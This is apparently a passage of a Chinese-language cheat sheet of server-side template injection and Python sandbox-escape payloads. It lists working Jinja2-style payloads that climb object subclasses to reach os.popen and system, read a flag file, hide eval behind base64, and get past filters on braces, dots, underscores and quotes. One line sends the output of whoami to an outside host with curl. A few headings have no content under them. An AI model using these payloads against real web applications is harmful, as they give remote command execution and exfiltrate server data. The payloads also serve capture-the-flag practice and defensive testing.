 ```
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()

```

#### 编码绕过

```
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['ZXZhbA=='.decode('base64')]("X19pbXBvcnRfXygnb3MnKS5wb3BlbignbHMnKS5yZWFkKCk=".decode('base64'))(
等价于
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('ls').read()")

```

#### 绕过{{或}}

> 



```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=`whoami`').read()=='p' %}1{% endif %}

```

#### 绕过.

> 



```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(177)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("dir").read()')}}

{{ config['__class__']['__init__']['__globals__']['os']['popen']('dir')['read']() }}

```

#### 过滤圆括号

> 



#### 绕过_和引号

> 



```
{{()|attr(request.values.a)}}&amp;a=class

```
